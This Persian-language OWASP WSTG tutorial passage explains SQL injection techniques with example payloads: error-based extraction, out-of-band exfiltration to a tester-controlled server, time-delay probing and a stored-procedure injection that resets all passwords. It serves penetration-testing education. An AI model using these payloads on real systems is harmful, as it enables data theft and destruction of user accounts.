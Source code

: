 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### تکنیک Error Based Exploitation Technique

یک تکنیک Error Based Exploitation زمانی مفید است که تست نفوذگر به دلایلی نمی‌تواند از آسیب‌پذیری تزریق SQL با استفاده از تکنیک‌های دیگر مانند Union استفاده کند. تکنیک Error Based Exploitation شامل مجبور کردن پایگاه‌داده برای اجرای برخی از عملیات‌ها می‌باشد که نتیجه آن بروز یک خطا خواهد بود. سپس تلاش برای استخراج برخی از داده‌ها از پایگاه‌داده و نشان دادن آن در پیام خطا است. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```


همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```
درخواست بدخواهانه می‌تواند (به عنوان مثال برای Oracle 10g) به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
در این مثال، تست نفوذگر مقدار ۱۰ را با نتیجه تابع UTL_INADDR.GET_HOST_NAMEالحاق می‌کند. این تابع در Oracle تلاش خواهد کرد تا Hostname پارامتری که به آن ارسال شده است را بازگرداند که عبارت دیگر کوئری، نام کاربر است. زمانی که پایگاه‌داده به دنبال یک نام میزبان با نام پایگاه‌داده کاربر باشد، شکست خواهد خورد و یک پیغام خطا مانند زیر نمایش می‌دهد:
```text
ORA-292257: host SCOTT unknown
```
سپس تست نفوذگر می‌تواند پارامتر منتقل‌شده به تابع GET_HOST_NAME() را دستکاری کند و نتیجه در پیام خطا نشان داده خواهد شد.

### تکنیک Out of Band Exploitation Technique

این تکنیک زمانی بسیار مفید است که تست نفوذگر یک SQL Injection از نوع Blind را پیدا کند که در آن هیچ چیز در مورد نتیجه یک عملیات معلوم نیست. این تکنیک شامل استفاده از توابع DBMS برای انجام یک اتصال خارج از باند و تحویل نتایج پرس و جوی تزریق‌شده به عنوان بخشی از درخواست به سرور تست نفوذگر است. مانند تکنیک‌های مبتنی بر خطا، هر DBMS ویژگی‌های مخصوص به خود را دارد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```
همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```

درخواست بدخواهانه می‌تواند به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_HTTP.request('testerserver.com:80' || (SELECT user FROM DUAL)--
```
در این مثال، تست نفوگر مقدار ۱۰ را با نتیجه تابع UTL_HTTP.requestبه هم متصل می‌کند. این تابع Oracle تلاش خواهد کرد تا به testerserver متصل شود و یک درخواست HTTP GET شامل بازگشت از کاربر SELECT پرس و جو از DAL ایجاد کند. تستر می‌تواند یک وب سرور (‏به عنوان مثال Apache)‏ایجاد کند یا از ابزار Netcat استفاده کند:

```js
/home/tester/nc -nLp 80
GET /SCOTT HTTP/1.1 
Host: testerserver.com 
Connection: close
```
### تکنیک Time Delay Exploitation Technique

تکنیک Time Delay Exploitation زمانی بسیار مفید است که تست نفوذگر آسیب پذیری Blind SQL Injection ای را پیدا کند که در آن نتیجه یک عملیات، مشخص نیست.
این تکنیک شامل ارسال یک پرس و جوی دارای تاخیر زمانی به سمت برنامه بوده و تست نفوذگر می‌تواند با بررسی زمان پاسخ بازگشت داده شده از سرور، در صورت صحیح بودن شرایط، اطلاعات مورد نظر را استخراج نماید. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```
همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```
درخواست مخرب می‌تواند به عنوان مثال در MySql نسخه 5 به شکل زیر باشد:
```url
http://www.example.com/product.php?id=10 AND IF (version() like ‘5%', sleep(10),'false')) --
```
در این مثال، تست نفوذگر بررسی می‌کند که آیا نسخه MySql ۵ است یا خیر. وی می‌تواند زمان تاخیر را افزایش دهد و پاسخ‌ها را نظارت کند.

### تکنیک Stored Procedure Injection

هنگام استفاده از SQL پویا در یک Stored Procedure، برنامه باید به درستی ورودی کاربر را برای از بین بردن خطر تزریق کد، Sanitize کند. اگر پاک‌سازی به درستی انجام نشود، کاربر می‌تواند دستورات SQL مورد نظر خود را وارد نماید که در Stored Procedure اجرا خواهد شد.

این Stored Procedure زیر را در نظر بگیرید:
```sql
Create procedure user_login @username varchar(20), @passwd varchar(20)
As
Declare @sqlstring varchar(250)
Set @sqlstring = ''
Select 1 from users
Where username = '+ @username + ' and passwd = ' + @passwd '
exec(@sqlstring)
Go
```
ورودی کاربر:
```sql
anyusername or 1=1' 
anypassword
```

این روش ورودی را Sanitize نمی‌کند، بنابراین به مقدار بازگشت اجازه می‌دهد تا یک رکورد موجود با این پارامترها را نشان دهد.

این مثال ممکن است به دلیل استفاده از SQL پویا برای ورود یک کاربر، غیر محتمل به نظر برسد، اما یک Dynamic Reporting Query را در نظر بگیرید که در آن کاربر ستون‌ها را برای مشاهده انتخاب می‌کند. کاربر می‌تواند کد مخرب را وارد این سناریو کرده و داده‌ها را به خطر بیاندازد.

مورد Stored Procedure زیر را در نظر بگیرید:
```
Create
procedure get_report @columnamelist varchar(7900)
As
Declare @sqlstring varchar(8000)
Set @sqlstring = ‘’
Select ‘+ @columnamelist + ‘ from ReportTable'
exec(@sqlstring)
Go
```
ورودی کاربر:
'''sql
1 from users; update users set password = 'password'; select *
'''

این امر منجر به اجرای گزارش و به روز رسانی تمام گذرواژه‌های کاربران خواهد شد.
